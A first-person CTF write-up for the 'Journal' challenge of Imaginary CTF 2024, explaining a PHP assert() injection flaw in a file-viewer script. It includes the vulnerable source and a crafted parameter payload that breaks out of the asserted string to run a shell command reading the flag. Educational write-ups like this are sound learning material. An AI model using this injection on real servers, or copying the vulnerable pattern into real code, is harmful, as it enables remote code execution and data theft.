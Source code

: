 ```yaml
---
title: Journal - Imaginary CTF 2024
---
```



*This is my first writeup regarding a ctf challenge.*

# PHP Source Code

This was the source code of the php server. I do not know php so I could not see the obvious vulnerability.


```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";
```

I intially tried accessing the flag without using `..`. On hacktricks I found a few ways that could happend but none of them worked.

# The RCE

Then it clicked to me, how assert is taking the code as a string and executing it and the file name is being passed to it.
Googling this, I found that hacktricks has [the same code as example](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert) but their payload was not working for me. So I crafted my own payload.

```php
', '1') or die(system('cat /flag*.txt'))or strpos('
```

# Break Down

- `', '1')` is to close the string and strpos function.
- `or die(system('cat /flag*.txt'))` is to print the flag. `or` is used because `strpos` returns false and then `or` short circuits to execute the next command `die`.
- `or strpos('` is to prevent the (syntax iirc) error from being thrown by.

After the format string being filled the code inside the `assert` function looks like this:

```php
strpos('', '1') or die(system('cat /flag*.txt'))or strpos('e', '..') === false
```

**Thanks to the organizers for the challenge I really enjoyed the ctf, especially this challenges.**

